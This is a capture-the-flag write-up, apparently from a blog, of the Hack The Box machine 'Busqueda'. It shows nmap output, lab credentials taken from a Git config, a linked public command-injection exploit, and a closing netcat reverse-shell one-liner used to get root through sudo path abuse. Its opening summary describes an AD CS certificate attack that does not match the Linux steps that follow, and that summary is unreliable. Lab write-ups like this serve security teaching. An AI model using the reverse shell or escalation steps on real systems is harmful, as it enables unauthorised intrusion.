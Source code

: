 ```yaml
---
title: "Busqueda"
date: 2024-04-17
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "busqueda", "htb walkthrough", "hackthebox", "writeup"]
---
```


Busqueda mimics a medium-sized enterprise environment with Active Directory Certificate Services (AD CS) misconfigurations.
Initial access was gained through SMB enumeration and credential reuse on a user with low privileges.
By identifying misissued certificates and leveraging ESC1 (template misconfiguration), I obtained a valid cert for authentication as a domain admin.
The exploitation path required understanding the AD CS ecosystem and mapping it to known escalation scenarios.
Busqueda highlights how certificate mismanagement can lead to stealthy, credential-free privilege escalation in AD environments.

## Enumeration

>- Footer contains service version number.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.208 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 10:31 AEST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.98% done; ETC: 10:31 (0:00:08 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/busqueda1.png)

![screenshot](/assets/images/busqueda2.png)

![screenshot](/assets/images/busqueda3.png)

## Initial Access

>- Gain shell as `svc` user by using a public exploit.

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

#### Shell as svc

![screenshot](/assets/images/busqueda4.png)

![screenshot](/assets/images/busqueda5.png)

```text
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

![screenshot](/assets/images/busqueda6.png)

```text
0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator@gitea.searcher.htb
```

add gitea.searcher.htb to `/etc/hosts`

![screenshot](/assets/images/busqueda7.png)

sign in as `cody : jh1usoih2bkjaspwe92`

![screenshot](/assets/images/busqueda8.png)

ssh as `svc :jh1usoih2bkjaspwe92 `

## Privilege Escalation

>- `/var/www` contains `.git`
	- `config` file contains cody user credentials for `gitea.searcher.htb`
		- add the new domain to `/etc/hosts`
		- sign in with the obtained credentials 
- SSH as `svc` user with cody user's passsword.
	- `sudo -l` svc user has sudo privileges to run some python scripts
	- Following the official documentation for command formats, I was able to obtain more credentials.
	- Path abuse one of the python scripts. 
		- create a new file with reverse shell payload in another directory `/tmp`.
		- name it the same 
		- execute the file in the `tmp` using `sudo`.

![screenshot](/assets/images/busqueda10.png)

![screenshot](/assets/images/busqueda11.png)

![screenshot](/assets/images/busqueda12.png)

https://docs.docker.com/reference/cli/docker/inspect/

![screenshot](/assets/images/busqueda13.png)

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

![screenshot](/assets/images/busqueda14.png)

![screenshot](/assets/images/busqueda15.png)

We now attempt to leverage the relative reference to `full-checkup.sh` by executing the `system-checkup` script from another directory that will contain our own malicious `full-checkup.sh` script.

```sh
# create a shell file and insert a reverse shell payload into it
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f" > /tmp/full-checkup.sh
# make it executable
chmod +x /tmp/full-checkup.sh
# execute the shell
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![screenshot](/assets/images/busqueda16.png)

